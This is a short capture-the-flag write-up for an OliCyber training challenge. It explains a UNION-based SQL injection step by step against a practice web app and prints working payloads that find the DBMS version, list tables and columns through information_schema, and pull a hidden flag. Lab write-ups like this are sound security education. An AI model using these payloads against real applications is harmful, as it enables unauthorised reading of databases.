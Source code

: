 # URL
https://training.olicyber.it/challenges#challenge-357
# Concept
* UNION-based SQL injections
# Method of solve
* we are directed to access this web app: `http://web-17.challs.olicyber.it/union`
* on these webpages we are taught about UNION-based SQL injections
* to solve this challenge, we need to supply valid UNION-based SQL statements to get additional info from the database
  * step 1: identify the number of columns returned by the original SQL statement
    * if we supply the number 1 as the user input, we see this:
    * `1, dummy value1, 3, another_value1, lollo, 4`
    * this indicates that there are 6 columns retrieved by the query
  * step 2: determine which DBMS is being used by the app
    * we supply this payload to test if the app is using `MySQL`-like syntax
    * `1' union select null, version(), null, null, null, null -- - `
    * the result lets us know that the app is using MySQL-like syntax
  * step 3: retrieve the table names in the database
    * now that we know that we're using MySQL-like syntax, we use this payload to get the table names:
    * `1' union select null, table_name, null, null, null, null FROM information_schema.tables WHERE table_schema = database() -- - `
    * the resulting output lets us know that there's two tables, `dummy_data` and `real_data`
  * step 4: getting the column names from the `real_data` table
    * we can use this MySQL-friendly payload to get the column names from the `real_data` table
    * `1' union select null, column_name, null, null, null, null FROM information_schema.columns WHERE table_name = 'real_data' AND table_schema = DATABASE() -- - `
    * this lets us know that there are two columns, `id` and `flag`
  * step 5: getting the contents of the `flag` column in the `real_data` table
    * this payload will get the contents of the `flag` column:
    * `1' union select null, flag, null, null, null, null FROM real_data -- - `









